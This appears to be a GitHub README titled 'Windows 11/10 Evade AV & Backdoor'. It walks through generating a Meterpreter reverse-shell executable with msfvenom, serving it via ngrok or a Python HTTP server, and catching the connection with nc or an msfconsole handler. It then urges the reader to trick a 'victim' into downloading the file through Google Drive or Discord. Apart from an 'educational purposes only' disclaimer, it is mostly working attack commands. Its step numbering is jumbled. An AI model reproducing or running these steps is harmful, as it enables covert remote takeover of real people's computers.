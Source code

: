 # Windows 11/10 Evade AV & Backdoor

#### **NOTE: For educational purposes only!**
#### **NOTE: Some Meterpreter commands may upset Defender.**
#### **NOTE: User must accept CMD prompt to run file. Working on a way to bypass this with send.keys() or another method.**

## Steps to Compromise:

1. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP_ADDRESS] LPORT=53 -a x86 -f exe -o (File_Name).exe
4. **Setup server in files directory:** <br>
**Using ngrok for remote, or python http server for local testing** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok for remote, or python http server for local testing
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 53 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 53) <br>
msf exploit(handler) > exploit <br>
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
  
# Demonstration Video
[![Click Me](https://img.youtube.com/vi/hwz77o8YMUA&t=436s/0.jpg)](https://www.youtube.com/watch?v=hwz77o8YMUA&t=436s)

